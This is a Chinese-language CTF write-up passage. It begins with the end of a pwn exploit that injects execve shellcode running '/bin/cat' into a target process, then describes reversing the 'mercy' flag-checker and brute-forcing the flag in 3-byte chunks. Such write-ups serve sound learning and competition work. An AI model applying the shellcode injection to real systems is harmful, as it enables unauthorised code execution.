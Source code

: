```python
mov rsi, rsp

mov rdi, 0x7461632f6e69622f
push 0
push rdi
mov rdi, rsp
mov rax, 0x3b
syscall
""")


move_to(0x481840)
print("/bin/ls", sc_ls, len(sc_ls))
print("/bin/cat", sc_read, len(sc_read))
input('>')
#write(p64(0x60481848) + sc_ls)
write(p64(0x60481848) + sc_read + b'\x03')

r.interactive()
```



## Reverse

### mercy

一開始 @CSY54 發現題目與之前 defcon **clemency** 相似，因此找了滿多的資源，看能不能把以 3 bits 為一組的 insn 轉成看得比較懂的格式，之後發現作者的 repo 有提供 debugger，並且印出的資訊很多。

簡單執行後，會知道他讀了一個 **./flag** 檔案，最後會迅速終止程式，並無太多的資訊。一開始在逆時，我們都先靜態 dump 出 debugger 所印出的 insn 到某個檔案，後續用靜態的方式大概瀏覽整個 binary 的行為。整個程式分成很多部分，並且大概有 6000 行 insn，原本我是想要一個個慢慢看，但是後來覺得實在太多了，比賽結束前應該看不完，而 @CSY54 認為這個程式應該只是個 flag checker，並且程式中判斷 **flag** 是否正確的方式在最後一段 code，因此可以優先看最後一段就好，所以我們就先一起看最後一個看似在比對的 for loop。

而這個部分就是透過看 insn 猜行為，過程中會需要動態執行到對應位址，並透過觀察暫存器的值，以及 stack 與 global data 的變化來確定猜的是對的。

最後得知，程式的末段會將 flag 做一連串的 swap 與運算得到一個陣列，最後每次拿部分 flag 與陣列的一些值做運算，最終比對一個常數，如果是對的那這個 input 就是 flag。關於操作、運算等等較為枯燥，就只是單純逆向 + 猜行為，較有趣的是我發現前面省略的一大串 code，似乎是在產生那一連串要比對常數，不過因為每次都會相同，所以並不會被我們的 input 所 taint，因此果斷不看。

我們以 3 bytes 為一組，隨機產生小 flag，並參考 doc 上面呈現 `MemLocation` 的方式來運算出結果，最後比對常數是否相同，若相同則為正確的 flag，繼續比對下個小 flag；若錯誤則在產生一組隨機的 flag 做測試。最終將通過比較的小 flag 串起來即是 flag：

```python
#!/usr/bin/python3

def show():
    idx = 1
    for i in l:
        print('%03x' % i, end = ' ')
        if idx % 24 == 0:
            print()
        elif idx % 12 == 0:
            print(' - ', end='')
        idx += 1

# check = {
#     '0x21': 0x4062ee8,
#     '0x1e': 0x441d6a8,

#     '0x1b': 0x69edf0e,
#     '0x18': 0x7885b66,
#     '0x15': 0x40ff43f,
#     '0x12': 0x6f30d11,
#     '0xf':  0x624e22d,
#     '0xc':  0x183716f,
```